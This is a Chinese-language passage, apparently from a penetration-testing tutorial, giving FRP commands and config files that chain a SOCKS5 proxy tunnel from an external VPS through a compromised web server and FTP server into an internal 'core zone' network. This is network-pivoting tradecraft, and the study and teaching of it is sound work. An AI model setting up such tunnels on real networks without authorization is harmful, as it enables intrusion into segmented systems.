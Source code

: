 - 在FTP服务器上启动FRP服务端shell

```
./frps.exe -c ./frps.ini
```

frps.ini内容如下：

```
[common] 
bind_addr = 192.168.30.10 
bind_port = 7000
```

- 在办公区的文件服务器上启动FRP客户端，连接FTP服务器的服务端，并在FTP服务器的10809端口上启动socks5代理服务shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

```
[common] 
server_addr = 192.168.30.10 
server_port = 7000 
[socks5] type = tcp 
remote_port = 10809 
plugin = socks5
```

**最终的隧道：**

```shell
VPS（100.100.100.10）
    监听：0.0.0.0:1080、0.0.0.0:7000
    
<--> web服务器（10.10.10.20）
    连接：100.100.100.10:7000
    监听：10.10.10.20:7000、10.10.10.20:10808 
    
<--> ftp服务器（10.10.10.30、192.168.30.10）
    连接：10.10.10.20:7000
    监听：192.168.30.10:10809 、192.168.30.10:7000 
    
<--> 文件服务器（192.168.30.100、192.168.60.100）
    连接：192.168.30.10:7000 
    
<-->核心区网络（192.168.60.0/24）
```

